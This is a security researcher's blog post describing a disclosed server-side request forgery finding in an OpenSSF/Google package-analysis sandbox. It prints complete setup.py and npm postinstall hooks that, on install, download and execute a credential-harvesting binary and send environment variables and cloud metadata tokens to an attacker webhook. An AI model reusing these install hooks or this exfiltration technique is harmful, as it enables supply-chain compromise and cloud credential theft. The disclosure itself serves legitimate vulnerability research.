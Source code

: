 +++
title = "Launching a supply chain counter-attack against Google/OpenSSF"
date = 2022-04-23
taxonomies.categories = ["vuln research", "cloud hacking", "supply chain attack"]
+++

I spent some time hunting for *server side request forgery* (SSRF) vulnerabilities. SSRF allows an attacker to forward unsanitized queries from a public endpoint to an internal and private service. This can result in the service performing malicious actions, or leaking sensitive metadata that can be used for privilege escalation.

This attack has become more prominent in the cloud-native era. Vulnerability disclosures for SSRF often demonstrate impact by querying the internal *instance metadata endpoint* (standardized by many cloud providers as `169.254.169.254`). This exists internally for code running on a container/VM to grab basic information about the compute instance. However, these endpoints can also be used to leak tokens useful for privilege escalation and environment escape.

I tested against a variety of cloud-based services that specialized in executing customer code. This includes:

- Remote terminals
- Remote IDEs
- Jupyter notebooks
- LaTeX editors
- CI/CD pipelines

While I was able to disclose some high-severity vulnerabilities, such as with [Gitpod](https://www.gitpod.io/security/thanks), I thought more deeply about other services where it's unexpected to carry out SSRF attacks.

After some research, I want to share a cool disclosure I made to Google and an organization they partner with, the [Open Source Security Foundation](https://openssf.org). They design and implement critical supply chain defenses for the web, and we'll be exploiting a service they've deployed for dynamic package analysis, which has [caught many malicious packages in the wild](https://github.com/ossf/package-analysis/blob/main/docs/case_studies.md).

## Supply Chain Insecurity

Some threat actors are now targeting developers through supply chain attacks that trick them into installing malicious software packages. A commonly employed tactic is typosquatting, where the attacker registers a package similarly named to a popular one, in the hopes that developers that mispell the original will install the malicious one instead.

Vendors are responding by deploying detection pipelines that monitor package registries for malicious packages. When attempting to understand how such systems would be implemented, prior research that stood out was [Jordan Wright](https://twitter.com/jw_sec)’s work on [hunting down malicious PyPI packages](https://jordan-wright.com/blog/post/2020-11-12-hunting-for-malicious-packages-on-pypi/) and Duan et Al.’s [NDSS paper](https://www.ndss-symposium.org/ndss-paper/towards-measuring-supply-chain-attacks-on-package-managers-for-interpreted-languages/).

Both highlight the use of cloud automation combined with eBPF-based dynamic tracing, specifically with **[sysdig](https://github.com/draios/sysdig),** to record syscall-based execution behavior of packages during the install process. This makes sense, as creating tailored static analysis detections involves a lot of effort and testing for precision. With the eBPF subsystem becoming more convenient for telemetry tooling, we can hypothesize that many vendors deploying package detection pipelines will rely on dynamic tracing to help determine package maliciousness.

## Sneak-y Around

This gave me the idea to upload some of my own malicious packages, but instead of hacking a poor developer that installs it, we'll target potential vendors that are monitoring changes to package registries and pulling it down for tracing. This attack chain is outlined here:

![AttackChain](/blog/supply-chain-counterattack/SSRF.png)

These packages will download and execute a small piece of malware I wrote, which will notify me with discovered SSRF opportunities. It has the following workflow:

1. Do some initial fingerprinting by dumping out environment variables, which can help identify potential service/container names, and maybe even authorization tokens/secrets.
2. Make an initial request against known instance metadata endpoints to see if we receive a response
    1. If identified, make additional requests against the endpoint to drop sensitive credentials and make other enumerations. An example can be seen in the code [here](https://github.com/ex0dus-0x/sneak/blob/main/cloud.go#L131-L134), against the AWS IMDSv1 endpoint.
3. Enumerate for other outbound addresses the host we’re in can speak to (NOTE: this actually not yet implemented, but I’d imagine implementing a barebones netstat clone).
4. Exfiltrate all these results to a specified webhook URL we control.

You can play around with this Golang-based malware, which I named __sneak__, [here](https://github.com/ex0dus-0x/sneak). Simply running the binary will kick off the enumeration process, and specifying a `--webhook` flag will exfiltrate any results to a webhook service (I used [webhook.site](https://webhook.site/#!/faec153e-a214-474f-81c8-14a1bad77298)). One feature is being able to set that webhook input during build-time using `-ldflags`, which will bake that URL in to the resulting binary without source modification. This can be useful if one is uploading sneak to an environment where you cannot pass command-line arguments to it.

### Launching the Attack

I built and stored the malware as a [release](https://github.com/ex0dus-0x/sneak/releases/tag/prerelease) for the repo, and deployed two “wrapper” packages for PyPI and npm called `intentionally-malicious`. The PyPI one looks like this:

```python
"""
setup.py
"""
import os
import urllib.request
import ssl
from subprocess import Popen, PIPE, STDOUT

from setuptools import setup
from setuptools.command.install import install

ssl._create_default_https_context = ssl._create_unverified_context

MALWARE = "https://github.com/ex0dus-0x/sneak/releases/download/prerelease/sneak"
WEBHOOK = "https://<WEBHOOK_URL>.com/"

class IntentionallyMalicious(install):
    def run(self):
        fd = urllib.request.urlretrieve(MALWARE, "sneak", )
        os.system("chmod +x ./sneak")
        cmd = f'./sneak -webhook={WEBHOOK}'
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=STDOUT, close_fds=True)
        p.communicate()

setup(
    name="intentionally-malicious1",
    cmdclass={
        "install": IntentionallyMalicious
    },
    ...
)
```

We adopt an approach used by many package-based attackers, where malicious behavior triggers upon `pip install` through arbitrary code in the package's `setup.py`. We do the same with the npm one, populating the `postinstall` field as part of the `package.json` manifest:

```js
const request = require('request');
const fs = require('fs');
const exec = require('child_process').exec;

const url = "https://github.com/ex0dus-0x/sneak/releases/download/prerelease/sneak"
const file = fs.createWriteStream("sneak");
request({
  followAllRedirects: true,
  url: url
}, function (error, response, body) {
  request(url).pipe(file).on('close', function() {
    console.log("done");
    exec('chmod +x ./sneak && ./sneak -webhook=https://<WEBHOOK_URL>.com/')
      if (err) {
          console.log(err);
          return;
      }
      console.log(`stdout: ${stdout}`);
      console.log(`stderr: ${stderr}`);
    });
  });
});
```

After uploading both to their respective registries, I crossed my fingers and waited for vendors on the Internet to execute them and hopefully produce interesting results.

Initially, I saw some requests come in that were not useful for further exploitation. However, some time after pushing up the npm package, an interesting request came in:

![SSRF_out](/blog/supply-chain-counterattack/SSRF_out.png)

We can see a leaked OAuth token and a service account and project name associated with OpenSSF. We can also see the `https://www.googleapis.com/auth/cloud-platform` scope present for the token. This means that we can escape this environment, and potentially access/takeover other resources within this GCP project! GitLab Security has a comprehensive post that discusses post-exploitation in GCP, which you can read about [here](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/).

It seems that our malware was picked up by a Google-deployed version of the [ossf/package-feeds](https://github.com/ossf/package-feeds) project, which routinely watches for new packages in the NPM registry feed for threat scanning. It saw our new package, and published the metadata to an analysis worker from the [ossf/package-analysis](https://github.com/ossf/package-analysis) project. This analyzed our package by spinning up a [Podman](https://podman.io)-based sandbox container to install it and record a dynamic trace of execution behavior. The container didn’t restrict access to the instance metadata API, hence allowing __sneak__ to steal a more privileged authorization token!

I submitted a report to Google’s [Vulnerability Reward Program](https://bughunters.google.com/about/rules/google-friends/6625378258649088/google-and-alphabet-vulnerability-reward-program-vrp-rules), and after a quick turnaround, they added several patches into their package detection infrastructure, and awarded me with a bounty!

## Closing Thoughts

This disclosure is not only interesting because of the unique environment that SSRF was exploited in, but also provides evidence that more discussion is needed around sandboxes that analyze and "detonate" malware. Such systems are themselves attack surfaces of the vendor, and can easily be interacted with by untrusted actors. This present an initial access risk to other internal services if privilege escalation is possible, and/or disruption of analysis capabilities.

## Timeline

* March 2, 2022 - Initial discovery
* March 3, 2022 - Report disclosed to Google’s VRP
* March 10, 2022 - Vulnerability is triaged as Priority 1, Severity 1
* March 10, 2022 - After looking at the OAuth token, Google Security confirms and accepted the report
* March 23, 2022 - Patches are applied
* March 29, 2022 - VRP panel awarded a $1,337 bounty

